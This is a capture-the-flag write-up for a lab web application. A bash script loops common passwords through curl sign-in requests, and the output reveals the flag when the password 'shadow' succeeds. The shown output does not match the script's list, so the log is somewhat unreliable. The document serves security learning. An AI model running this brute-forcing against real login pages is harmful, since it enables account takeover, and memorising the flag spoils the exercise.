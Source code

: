 # Frist Step

After launching your vm and setting it up, u should visit the http://10.12.180.85:80, it's normal to try sign in, but u don't have even the username or the password, now the idea here is brute force attack on the web application to discover a valid password.

# How to do that

I choose one of the most common username in the internet "shadow" and try to log with and testing some of the common passwords too like 
```
1234 baseball iloveyou trustno1 sunshine princess football welcome shadow superman michael ninja
```
the script is:

```bash
#!/bin/bash

passwords=(123456 password 123456789 12345678 12345 1234567 admin 123123 qwerty abc123 letmein monkey 111111 password1 qwerty123 dragon 1234 baseball iloveyou trustno1 sunshine princess football welcome shadow superman michael ninja mustang jessica charlie ashley bailey passw0rd master love hello freedom whatever nicole jordan cameron secret summer 1q2w3e4r zxcvbnm starwars computer taylor startrek)

for password in "${passwords[@]}"
do
    echo "Trying password: $password"
    
    curl -X GET "http://10.12.180.85/?page=signin&username=shadow&password=$password&Login=Login#" | grep flag
done
```
after run it the result looks like that:

```bash
~ bash test.sh
Trying password: 123456
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    993      0 --:--:--  0:00:02 --:--:--   993
Trying password: passwod
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    991      0 --:--:--  0:00:02 --:--:--   992
Trying password: 3456
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    992      0 --:--:--  0:00:02 --:--:--   993
Trying password: welcome
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    993      0 --:--:--  0:00:02 --:--:--   993
Trying password: shadow
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2084    0  2084    0     0  1529k      0 --:--:-- --:--:-- --:--:-- 2035k
<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>				</div>

Trying password: football
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1988    0  1988    0     0    992      0 --:--:--  0:00:02 --:--:--   993
```

And here as u noticed the right password that give you the flag is:
```
shadow
```
so the username is "shadow" and password is also "shadow"